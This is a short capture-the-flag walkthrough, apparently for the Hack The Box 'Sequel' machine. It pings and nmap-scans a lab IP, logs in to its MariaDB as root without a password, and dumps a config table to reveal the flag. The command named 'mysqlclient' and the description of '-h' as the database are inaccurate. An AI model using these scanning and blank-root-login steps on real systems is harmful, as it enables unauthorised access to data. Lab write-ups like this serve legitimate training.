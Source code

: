 ![Sequel.PNG](/assets/sequel.jpg)


1. Send an ICMP echo request to machine's IP address..
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 2 10.129.96.49
```

2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.96.49
```

3. Now, start **service mysql** and connect to **database** with user **root** to not put the password.
```bash
┌──(root㉿kali)-[/home/kali]
└─| service mysql start
```

```bash
┌──(root㉿kali)-[/home/kali]
└─| mysqlclient -u root -h 10.129.96.49
```
+ `-u`: Indicate user
+ `-h`: Indicate database


4. Then, search in database the **flag**.
```bash
MariaDB [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
```
> First, show all databases.

---
```bash
MariaDB [(none)]> USE htb;
```
> Use a **htb** bdd.

---
```bash
MariaDB [htb]> SHOW TABLES;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
```
> Show all tables of **htb** database

---

```bash
MariaDB [htb]> SELECT * FROM config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
```
**BOOM** obtain the **flag**


**By: EsT**